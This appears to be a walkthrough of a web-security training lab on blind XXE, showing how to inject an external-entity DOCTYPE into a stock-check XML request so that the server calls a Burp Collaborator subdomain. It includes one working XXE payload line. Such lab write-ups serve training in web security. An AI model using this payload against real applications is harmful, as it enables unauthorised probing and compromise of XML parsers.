 # Lab: Blind XXE with out-of-band interaction

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/703fdae9-7829-4696-a58b-1c1e775bdc29)

## Solution

The application has stock check page.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/e9706344-025a-408f-a35f-204beacf9642)

The application checks for the stock level of a product by submitting XML to the server:

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ca61e6c1-ff53-41ef-8234-8df75fd89972)

Go to burp collaborator and click on **copy to clipboard**.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/77153dc5-755b-4a4b-ab0c-7bd3aab05529)

Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

`<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`
Replace the productId number with a reference to the external entity: `&xxe;`

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c1a67486-e60f-4d0d-bf0d-df3362fbe845)

o to the Collaborator tab, some DNS and HTTP interactions that were initiated by the application as the result of your payload wil be visible.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/6aca349c-832d-4284-ad13-bfcfaaad0ee0)

Making the application do the interactions solved the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/012349cb-ad55-418d-b094-9609e5e78d6e)
